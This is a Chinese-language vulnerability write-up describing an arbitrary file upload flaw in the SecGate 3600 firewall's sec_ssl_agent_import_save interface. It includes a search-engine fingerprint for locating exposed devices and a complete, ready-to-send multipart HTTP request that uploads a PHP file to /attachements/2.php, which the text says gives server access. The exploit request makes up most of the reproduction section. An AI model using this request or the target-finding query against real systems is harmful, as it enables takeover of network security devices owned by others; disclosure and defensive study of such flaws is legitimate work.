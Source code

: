 # 网神SecGata 3600防火墙sec_ssl_agent_import_save任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(0, 0, 0);">网神 SecGate 3600 防火墙 sec_ssl_agent_import_save接口存在任意文件上传漏洞，攻击者通过构造特殊请求包即可获取服务器权限。</font>

# <font style="color:rgb(0, 0, 0);">二、影响版本</font>
+ 网神SecGata 3600防火墙

# 三、资产测绘
    - hunter:`app.name="网神 SecGate"&&web.title=="网神SecGate 3600防火墙"`

![1691631315585-e71862e7-a889-460a-b2f7-a14e396c2f9b.png](./img/-N6yTXZ-Xrvrv3lT/1691631315585-e71862e7-a889-460a-b2f7-a14e396c2f9b-064175.png)

+ 登录页面

![1691631344474-a4ef0b41-65a2-4221-8212-3ca32e0b0b40.png](./img/-N6yTXZ-Xrvrv3lT/1691631344474-a4ef0b41-65a2-4221-8212-3ca32e0b0b40-887909.png)

# 四、漏洞复现
```plain
POST /?g=sec_ssl_agent_import_save HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Content-Length: 343
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEkSeIhsa5fnqB0Zn
Upgrade-Insecure-Requests: 1
SL-CE-SUID: 1057
        

------WebKitFormBoundaryEkSeIhsa5fnqB0Zn
Content-Disposition: form-data; name="reqfile"; filename="2.php"
Content-Type: text/plain

<?php echo "testvuln";?>
        
------WebKitFormBoundaryEkSeIhsa5fnqB0Zn
Content-Disposition: form-data; name="submit_post"

sec_ssl_agent_import_save
------WebKitFormBoundaryEkSeIhsa5fnqB0Zn--
```

![1695735421920-d255f88c-764a-42ec-8149-17edf9f02cf3.png](./img/-N6yTXZ-Xrvrv3lT/1695735421920-d255f88c-764a-42ec-8149-17edf9f02cf3-656138.png)

上传文件位置

```plain
/attachements/2.php
```

![1695735454815-44638c44-4f66-43cb-8f54-95d97029eea6.png](./img/-N6yTXZ-Xrvrv3lT/1695735454815-44638c44-4f66-43cb-8f54-95d97029eea6-002177.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wmrum6asvg0bsdhy>